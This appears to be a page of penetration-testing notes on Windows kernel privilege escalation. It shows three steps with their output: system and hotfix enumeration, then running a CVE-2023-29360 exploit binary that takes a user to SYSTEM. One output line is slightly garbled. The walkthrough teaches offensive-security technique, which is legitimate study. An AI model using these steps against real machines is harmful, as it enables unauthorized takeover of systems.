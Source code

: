 # Exploits

**Kernel exploits** aim to leverage Windows kernel vulnerabilities and typically result in high privileges, but requires advanced knowledge and carries a high risk of crashing the system.

{% tabs %}
{% tab title="1. System Info" %}
```powershell
> systeminfo

Host Name:                 CLIENTWK220
OS Name:                   Microsoft Windows 11 Pro
OS Version:                10.0.22621 N/A Build 22621
...
```
{% endtab %}

{% tab title="2. Hotfixes" %}
{% code overflow="wrap" %}
```powershell
# enumerate security patches
> Get-CimInstance -Class win32_quickfixengineering | Where-Object { $_.Description -eq "Security Update" }

Source        Description      HotFixID      InstalledBy         InstalledOn
------        -----------      --------      -----------         -----------
              Security Update  KB5025239                         5/4/2023 12:00:00 AM
              Security Update  KB5025749                         5/4/2023 12:00:00 AM
              Security Update  KB5017233                         9/25/2022 12:00:00 AM
```
{% endcode %}
{% endtab %}

{% tab title="3. Exploit" %}
{% code overflow="wrap" %}
```powershell
> whoami
clientwk220\steve

> .\CVE-2023-29360.exe
[+] Device Description: Microsoft Streaming Service Proxy
Hardware IDs:
        "SW\{96E080C7-143C-11D1-B40F-00A0C9223196}"
[+] Device Instance ID: SW\{96E080C7-143C-11D1-B40F-00A0C9223196}\{3C0D501A-140B-11D1-B40F-00A0C9223196}
[+] First mapped _MDL: 20c2f3c00c0
[+] Second mapped _MDL: 20c2f3d0040
[+] Unprivileged token reference: ffffbc053be6d06d
[+] System token reference: ffffbc052ea7d496
Microsoft Windows [Version 10.0.22621.1555]
(c) Microsoft Corporation. All rights reserved.

>whoami
nt authority\systemower
```
{% endcode %}
{% endtab %}
{% endtabs %}

> _Vulnerabities on Windows OS systems can be found on the_ [_Security Update Guide_](https://msrc.microsoft.com/update-guide/)_, such as_ [_CVE-2023-29360_](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-29360)_, and their corresponding security updates can be shown on the_ [_Microsoft Update Catalog_](https://catalog.update.microsoft.com/Search.aspx?q=KB5027231) _page._
